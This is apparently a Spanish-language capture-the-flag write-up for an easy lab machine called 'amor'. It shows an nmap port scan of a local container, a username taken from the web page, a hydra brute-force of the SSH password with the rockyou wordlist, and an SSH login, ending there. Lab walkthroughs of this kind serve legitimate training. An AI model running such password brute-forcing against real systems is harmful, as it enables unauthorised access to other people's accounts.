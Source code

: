 **Autor:** Romabri

**Dificultad:** Fácil

**Fecha de creación:** 26/04/2024

--------------------------------

DESPLIEGUE

```
bash auto_deploy.sh amor.tar
```


PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```

---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```


![[Pasted image 20241013184156.png]]

Tenemos dos servicios abierto puerto 22 ssh y puerto 80 http. 

![[Pasted image 20241013184333.png]]

Abajo tenemos un nombre con posibilidad de que sea usuario del departamento de ciberseguridad. 

Por lo que podemos usar hydra para saber la contraseña de esa usuaria. 

```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Y ahí tenemos la contraseña :

![[Pasted image 20241013184741.png]]

Ahora, entremos:

```
ssh carlota@172.17.0.2
```


![[Pasted image 20241013184912.png]]


